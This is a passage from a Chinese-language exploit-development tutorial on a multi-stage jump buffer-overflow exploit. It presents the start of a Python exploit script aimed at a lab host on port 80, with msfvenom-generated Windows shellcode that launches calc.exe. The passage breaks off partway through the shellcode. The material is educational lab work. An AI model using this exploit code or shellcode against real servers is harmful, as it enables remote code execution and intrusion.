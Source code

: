 ![](img/5faf3edec5fcfa3ba5b1facfede6e099.png)

让我们回到多阶段跳转利用。

Fu11pwnops 认为，由于 ASLR 已被禁用，因此不需要鸡蛋猎人来利用此漏洞:

![](img/47f784e19bd69177eed763d1a52ea6af.png)

这是最后一个漏洞的样子:

```
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.2.15"
victim_port = 80

# msfvenom -p windows/exec CMD=calc.exe -b "\x00\xff\x0d\x0a" EXITFUNC=thread -f python -v shellcode_calc
shellcode_calc =  ""
shellcode_calc += "\xba\x97\x92\x8c\xa9\xda\xd2\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x2b\xc9\xb1\x31\x31\x57\x13\x83"
shellcode_calc += "\xc7\x04\x03\x57\x98\x70\x79\x55\x4e\xf6"
shellcode_calc += "\x82\xa6\x8e\x97\x0b\x43\xbf\x97\x68\x07"
shellcode_calc += "\xef\x27\xfa\x45\x03\xc3\xae\x7d\x90\xa1"
shellcode_calc += "\x66\x71\x11\x0f\x51\xbc\xa2\x3c\xa1\xdf"
shellcode_calc += "\x20\x3f\xf6\x3f\x19\xf0\x0b\x41\x5e\xed"
shellcode_calc += "\xe6\x13\x37\x79\x54\x84\x3c\x37\x65\x2f"
shellcode_calc += "\x0e\xd9\xed\xcc\xc6\xd8\xdc\x42\x5d\x83"
shellcode_calc += "\xfe\x65\xb2\xbf\xb6\x7d\xd7\xfa\x01\xf5"
shellcode_calc += "\x23\x70\x90\xdf\x7a\x79\x3f\x1e\xb3\x88"
shellcode_calc += "\x41\x66\x73\x73\x34\x9e\x80\x0e\x4f\x65"
shellcode_calc += "\xfb\xd4\xda\x7e\x5b\x9e\x7d\x5b\x5a\x73"
shellcode_calc += "\x1b\x28\x50\x38\x6f\x76\x74\xbf\xbc\x0c"
shellcode_calc += "\x80\x34\x43\xc3\x01\x0e\x60\xc7\x4a\xd4"
shellcode_calc += "\x09\x5e\x36\xbb\x36\x80\x99\x64\x93\xca"
shellcode_calc += "\x37\x70\xae\x90\x5d\x87\x3c\xaf\x13\x87"
shellcode_calc += "\x3e\xb0\x03\xe0\x0f\x3b\xcc\x77\x90\xee"
shellcode_calc += "\xa9\x98\x72\x3b\xc7\x30\x2b\xae\x6a\x5d"
shellcode_calc += "\xcc\x04\xa8\x58\x4f\xad\x50\x9f\x4f\xc4"
```